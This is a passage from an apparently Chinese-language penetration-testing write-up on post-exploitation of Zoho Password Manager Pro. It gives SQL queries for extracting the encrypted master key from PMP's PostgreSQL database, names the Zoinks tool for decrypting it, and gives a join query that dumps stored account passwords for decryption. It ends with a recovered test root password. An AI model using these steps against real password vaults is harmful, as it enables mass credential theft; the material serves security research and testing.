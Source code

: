 连接pgsql测试

![Untitled](../../img/zoho-case/Untitled%2016.png)

![Untitled](../../img/zoho-case/Untitled%2017.png)

这里注意,pmp默认的pgsql是只监听127的2345，无法外部连接，如果是rce打的，可以自行进行端口转发

![Untitled](../../img/zoho-case/Untitled%2018.png)

---

## 获取`master key`

在连接数据库后，查询加密的`master key`

```java
select notesdescription from Ptrx_NotesInfo
```

![Untitled](../../img/zoho-case/Untitled%2019.png)

这里通过`pmp_key.key`文件中的PMP 密钥来解密`master key`

shielder的代码在解的时候有些问题，这里使用[https://github.com/trustedsec/Zoinks](https://github.com/trustedsec/Zoinks)项目来进行解密

![Untitled](../../img/zoho-case/Untitled%2020.png)

得到`master key`

---

## 解密数据库中的密码

首先先查询数据库中的存储的密码

```sql
select ptrx_account.RESOURCEID, ptrx_resource.RESOURCENAME, ptrx_resource.RESOURCEURL, ptrx_password.DESCRIPTION, ptrx_account.LOGINNAME, decryptschar(ptrx_passbasedauthen.PASSWORD,'***master_key***') from ptrx_passbasedauthen LEFT JOIN ptrx_password ON ptrx_passbasedauthen.PASSWDID = ptrx_password.PASSWDID LEFT JOIN ptrx_account ON ptrx_passbasedauthen.PASSWDID = ptrx_account.PASSWDID LEFT JOIN ptrx_resource ON ptrx_account.RESOURCEID = ptrx_resource.RESOURCEID
```

用`master key`替换语句里的`***master_key***`部分

![Untitled](../../img/zoho-case/Untitled%2021.png)

继续使用Zoinks进行解密

![Untitled](../../img/zoho-case/Untitled%2022.png)

这里解密出test资源,root用户的明文口令123456

---